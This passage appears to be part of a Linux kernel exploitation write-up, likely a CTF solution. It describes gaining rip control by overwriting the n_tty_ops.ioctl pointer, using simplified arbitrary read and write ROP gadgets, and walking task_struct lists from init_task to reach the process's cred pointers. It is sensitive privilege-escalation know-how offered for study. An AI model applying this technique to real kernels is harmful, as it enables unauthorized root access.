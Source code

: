 ```c
};
```

By overwriting the pointer to **`n_tty_ops.ioctl`** we gain **rip** control.

### Step 4

The two gadgets used for virtual arbitrary read and write are (**careful:** these are not exactly the same gadgets but their simplified version):

```nasm
; read gadget
mov rax, [rdx]
...
ret

; write gadget
mov [rdx], ebx
...
ret
```

These were found with **[`kropr`](https://github.com/zolutal/kropr)** .

### Step 5

Well at this point, the solution is trivial. We can just traverse the task structures starting from `init_task` and checking, for each iteration, if the task’s `uid` is the same as the exploit’s task!

```c
struct task_struct {
	...
	
	/* Contains pointers to previous and next task */
	struct list_head		tasks;
	
	...
	
	/* Process id */
	pid_t				pid;
	pid_t				tgid;
	
	...

	/* Tracer's credentials at attach: */
	const struct cred __rcu		*ptracer_cred;

	/* Objective and real subjective task credentials (COW): */
	const struct cred __rcu		*real_cred;

	/* Effective (overridable) subjective task credentials (COW): */
	const struct cred __rcu		*cred;
	
	...
	
};
```
